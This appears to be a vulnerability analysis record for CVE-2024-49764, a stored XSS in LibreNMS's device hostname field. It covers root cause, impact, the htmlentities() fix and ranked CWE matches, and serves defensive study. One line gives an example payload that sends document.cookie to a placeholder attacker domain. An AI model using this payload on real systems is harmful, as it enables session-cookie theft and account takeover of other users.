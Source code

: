 ## Vulnerability Description
LibreNMS is an open-source, PHP/MySQL/SNMP-based network monitoring system. A **Stored Cross-Site Scripting** (XSS) vulnerability in the Capture Debug Information page allows authenticated users to inject arbitrary JavaScript through the hostname parameter when creating a new device. This vulnerability results in the execution of malicious code when the Capture Debug Information page is visited, redirecting the user and sending non-httponly cookies to an attacker-controlled domain. This vulnerability is fixed in 24.10.0.

### Vulnerability Description Key Phrases
- **weakness:** **Stored Cross-Site Scripting**
- **impact:** inject arbitrary JavaScript and redirect user to attacker-controlled domain and send non-httponly cookies
- **vector:** hostname parameter
- **attacker:** authenticated users
- **product:** LibreNMS
- **version:** before 24.10.0
- **component:** Capture Debug Information page

## CVE Reference Links Content Summary
Based on the provided content, here's an analysis of CVE-2024-49764:

**Root Cause of Vulnerability:**

- The root cause is insufficient sanitization of the `hostname` parameter when creating a new device in LibreNMS. This unsanitized input is later used in the "Capture Debug Information" page.
- Specifically, the `url` variable, derived from the `hostname` parameter, was not properly sanitized before being included in the HTML of the "Capture Debug Information" page.

**Weaknesses/Vulnerabilities Present:**

- **Stored Cross-Site Scripting (XSS):** The primary weakness is the presence of a stored XSS vulnerability. An attacker can inject malicious JavaScript code through the `hostname` parameter.
- **Insufficient Input Sanitization:** The application fails to sanitize user-provided input (`hostname`) before rendering it in the HTML context.

**Impact of Exploitation:**

- **Arbitrary JavaScript Execution:** An attacker can execute arbitrary JavaScript code in the context of other users' sessions when they visit the "Capture Debug Information" page for a compromised device.
- **User Redirection:** The injected script can redirect the user to a malicious domain.
- **Cookie Theft:** The attacker can capture non-HttpOnly cookies, potentially compromising the user's account and enabling unauthorized actions.

**Attack Vectors:**

- **Network:** The attack vector is network-based, meaning an attacker can exploit this vulnerability remotely over the network.
- **HTTP POST Request:** The attacker injects the malicious payload through a POST request when creating a new device. The specific parameter is the `hostname` field.
- **"Capture Debug Information" Page:** The vulnerability is triggered when a victim navigates to the "Capture Debug Information" page for the device with the injected payload.

**Required Attacker Capabilities/Position:**

- **Authenticated User:** The attacker needs to be an authenticated user to create a device, enabling the malicious hostname injection.
- **Knowledge of Target Application:** The attacker must be aware of the vulnerable parameter and the context where the unsanitized data is rendered (the "Capture Debug Information" page).
- **Ability to Create Devices:** The attacker needs the privilege to create new devices. This is mentioned in the "Privileges required" CVSS base metrics as High.

**Additional Details:**

- **Vulnerable Code Location:** The vulnerability is located in `librenms/includes/html/pages/device/capture.inc.php`.
- **Vulnerable versions:** Affects versions <= 24.9.1
- **Patched versions:** Fixed in version 24.10.0
- **CVSS Score:** The vulnerability has a CVSS v3 base score of 7.5.
- **Payload example:** The following payload can be injected into the hostname parameter when creating a new device `test'" autofocus onfocus="document.location='https://<attacker_domain>/logger.php?c='+document.cookie"`.
- **Mitigation:** The fix includes using the `htmlentities()` function to properly encode the `hostname` variable before rendering in the HTML. This was implemented in commit `af15eabbb1752985d36f337cecf137a947e170f6`.
- **CWE:** The vulnerability is classified as CWE-79 (Improper Neutralization of Input During Web Page Generation ['Cross-site Scripting']).

In summary, CVE-2024-49764 is a stored XSS vulnerability in LibreNMS that allows authenticated users to inject malicious scripts via the `hostname` parameter when creating a device. This script executes when a user visits the "Capture Debug Information" page of the device, leading to potential user compromise. The vulnerability is due to lack of proper input sanitization and is fixed by encoding the output using `htmlentities()` function.

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 79 | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') | Base | Allowed | sparse | 0.505 |
| 2 | 352 | Cross-Site Request Forgery (CSRF) | Compound | Allowed | sparse | 0.466 |
| 3 | 116 | Improper Encoding or Escaping of Output | Class | Allowed-with-Review | sparse | 0.447 |
| 4 | 80 | Improper Neutralization of Script-Related HTML Tags in a Web Page (Basic XSS) | Variant | Allowed | sparse | 0.436 |
| 5 | 138 | Improper Neutralization of Special Elements | Class | Discouraged | sparse | 0.418 |
| 6 | 1004 | Sensitive Cookie Without 'HttpOnly' Flag | Variant | Allowed | sparse | 0.416 |
| 7 | 434 | Unrestricted Upload of File with Dangerous Type | Base | Allowed | sparse | 0.408 |
| 8 | 89 | Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') | Base | Allowed | sparse | 0.399 |
| 9 | 306 | Missing Authentication for Critical Function | Base | Allowed | dense | 0.575 |
| 10 | 184 | Incomplete List of Disallowed Inputs | Base | Allowed | graph | 0.002 |



# Complete CWE Specifications

CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')

CWE-352: Cross-Site Request Forgery (CSRF)

CWE-116: Improper Encoding or Escaping of Output

CWE-80: Improper Neutralization of Script-Related HTML Tags in a Web Page (Basic XSS)

CWE-138: Improper Neutralization of Special Elements

CWE-1004: Sensitive Cookie Without 'HttpOnly' Flag

CWE-434: Unrestricted Upload of File with Dangerous Type

CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')

CWE-306: Missing Authentication for Critical Function

CWE-184: Incomplete List of Disallowed Inputs